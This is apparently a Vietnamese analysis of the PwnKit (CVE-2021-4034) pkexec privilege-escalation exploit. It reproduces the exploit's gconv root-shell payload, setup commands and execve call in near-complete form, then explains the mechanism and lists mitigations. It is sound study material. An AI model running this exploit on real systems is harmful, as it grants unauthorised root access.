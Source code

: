 # CVE-2021-4034 (PwnKit) - Phân tích mã khai thác

## Giới thiệu

CVE-2021-4034 (PwnKit) là một lỗ hổng leo thang đặc quyền cục bộ được phát hiện trong công cụ pkexec của polkit. Lỗ hổng này cho phép người dùng thông thường có thể đạt được quyền root trên hệ thống Linux.

## Phân tích mã khai thác

### 1. Cấu trúc chính của mã

Mã khai thác bao gồm hai phần chính:
- Mã shellcode được nhúng dưới dạng chuỗi C
- Hàm main thực hiện việc chuẩn bị và kích hoạt khai thác

### 2. Phân tích chi tiết

#### Phần shellcode:
```c
char *shell = 
    "#include <stdio.h>\n"
    "#include <stdlib.h>\n"
    "#include <unistd.h>\n\n"
    "void gconv() {}\n"
    "void gconv_init() {\n"
    "	setuid(0); setgid(0);\n"
    "	seteuid(0); setegid(0);\n"
    "	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
    "	exit(0);\n"
    "}";
```

Đoạn mã này sẽ:
1. Thiết lập UID và GID về 0 (root)
2. Khôi phục PATH gốc
3. Dọn dẹp các file tạm thời
4. Mở một shell với quyền root

#### Các bước khai thác:

1. Tạo cấu trúc thư mục và file cần thiết:
```c
system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
```

2. Tạo và biên dịch thư viện động chứa mã khai thác:
```c
fp = fopen("pwnkit/pwnkit.c", "w");
fprintf(fp, "%s", shell);
fclose(fp);
system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
```

3. Chuẩn bị môi trường và thực thi pkexec:
```c
char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
execve("/usr/bin/pkexec", (char*[]){NULL}, env);
```

## Cách thức hoạt động

1. Khai thác lợi dụng cách pkexec xử lý biến môi trường không an toàn
2. Sử dụng cơ chế gconv của Linux để thực thi mã tùy ý
3. Thông qua việc điều khiển biến môi trường, mã khai thác có thể chạy với quyền root

## Biện pháp phòng chống

1. Cập nhật polkit lên phiên bản mới nhất
2. Giới hạn quyền thực thi pkexec
3. Theo dõi và giám sát các hoạt động liên quan đến pkexec

## Tham khảo

- [Qualys Security Advisory](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
- Tác giả: Andris Raugulis <moo@arthepsy.eu>
